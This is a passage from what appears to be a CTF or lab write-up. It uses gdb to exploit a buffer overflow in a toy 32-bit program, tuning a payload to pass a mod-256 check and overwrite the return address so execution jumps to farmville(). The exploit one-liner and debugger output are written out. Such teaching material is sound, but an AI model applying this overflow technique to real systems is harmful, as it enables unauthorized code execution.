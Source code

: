 

<pre class="prettyprint"><code class=" hljs bash">(gdb) cont
Continuing.
Breakpoint <span class="hljs-number">2</span>, <span class="hljs-number">0</span>x08048729 <span class="hljs-keyword">in</span> zerg ()</code></pre>

<p>Now let’s <code>disas</code> the stack and see what is being tested. <br>
<code>(gdb) disas</code></p>



<pre class="prettyprint"><code class=" hljs xml">   0x0804871f <span class="hljs-tag">&lt;<span class="hljs-title">+132</span>&gt;</span>:   mov    0x804a08c,%eax
   0x08048724 <span class="hljs-tag">&lt;<span class="hljs-title">+137</span>&gt;</span>:   movzbl %al,%eax
   0x08048727 <span class="hljs-tag">&lt;<span class="hljs-title">+140</span>&gt;</span>:   test   %eax,%eax
=&gt; 0x08048729 <span class="hljs-tag">&lt;<span class="hljs-title">+142</span>&gt;</span>:   je     0x804873f <span class="hljs-tag">&lt;<span class="hljs-title">zerg+164</span>&gt;</span></code></pre>

<p>and <code>$eax</code> now is set to the remainder of the sum of our payload divided by 256, so we can just print out <code>$eax</code> and tune up the payload. <br>
<code>(gdb) print $eax <br>
$2 = 164</code> <br>
So, we need add <code>(256-164=)92</code>to our payload. You can substitute any of the <code>A</code> , so I substituted 4 <code>A</code>s with <code>(A+23=)X</code>s, and run it again.  <br>
<code>run $(python -c 'print ("RUSHKEKEKE" +"A" *2+"X"*4+"\x99 <br>
\x87\x04\x08")')</code> <br>
and once we reach the 2nd break point, let’s check out <code>$eax</code>. <br>
<code>(gdb) print $eax <br>
$4 = 0</code> <br>
Yayyyy! It is now divisible by 256. So how about the return address, did we craft it correctly? <br>
Let’s set up another break point after the payload is copied into buffer (and overflow it).  </p>



<pre class="prettyprint"><code class=" hljs livecodeserver">(gdb) b *<span class="hljs-number">0x08048775</span>
Breakpoint <span class="hljs-number">3</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x8048775</span>
(gdb) cont
Continuing.

Breakpoint <span class="hljs-number">3</span>, <span class="hljs-number">0x08048775</span> <span class="hljs-operator">in</span> zerg ()</code></pre>

<p>Now, let’s examine the data at <code>$ebp</code> and the return address after it.  <br>
<code>(gdb) x/4x $ebp <br>
0xffffda38:     0x58585858      0x08048799      0xffffdc00      0x0000000f <br>
</code> <br>
great the next 4 byte of <code>$ebp</code> is now the call address of <code>farmville()</code>. We can now just continue to the end of this program and check if it did enter the <code>farmville()</code> function.</p>
